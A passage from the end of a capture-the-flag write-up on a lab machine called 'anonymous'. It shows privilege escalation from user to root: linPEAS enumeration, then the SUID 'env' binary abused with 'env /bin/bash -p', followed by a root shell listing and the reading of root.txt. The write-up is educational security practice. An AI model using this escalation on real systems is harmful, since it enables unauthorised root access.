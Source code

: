 And we have the user flag !

**Question : user.txt**  
**Answer : HIDDEN**

## Privilege escalation

Now we have to elevate our privileges.
I used the famous tool named [linPEAS.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to enumerate the machine for privilege escalation. 
LinPEAS found an interesting binary that has the SUID bit set named "env". When looking for this binary 
on [GTFOBins](https://gtfobins.github.io/), we see that it is possible to execute another binary using env without dropping 
the privileges, so we can spawn a shell as root :  
![](https://i.imgur.com/OGdiQPH.jpg)

Let's try this :  
```
namelessone@anonymous:/tmp$ env /bin/bash -p
bash-4.4# whoami
root
```

And we have a root shell ! Let's get the final flag :  
```
bash-4.4# ls -la
total 60
drwx------  6 root root  4096 May 17  2020 .
drwxr-xr-x 24 root root  4096 May 12  2020 ..
lrwxrwxrwx  1 root root     9 May 11  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Apr  9  2018 .bashrc
drwx------  2 root root  4096 May 11  2020 .cache
drwx------  3 root root  4096 May 11  2020 .gnupg
drwxr-xr-x  3 root root  4096 May 11  2020 .local
-rw-r--r--  1 root root   148 Aug 17  2015 .profile
-rw-r--r--  1 root root    33 May 11  2020 root.txt
-rw-r--r--  1 root root    66 May 11  2020 .selected_editor
drwx------  2 root root  4096 May 11  2020 .ssh
-rw-------  1 root root 13795 May 17  2020 .viminfo
-rw-------  1 root root    55 May 14  2020 .Xauthority
bash-4.4# cat root.txt 
***********************************
```

**Question : root.txt**  
**Answer : HIDDEN**

## Conclusion

This room was very cool. I learned a new way to gain a shell on a machine when FTP is not 
properly configured and using scripts that run periodically. Thanks for this room ! And thanks for reading my write ups !
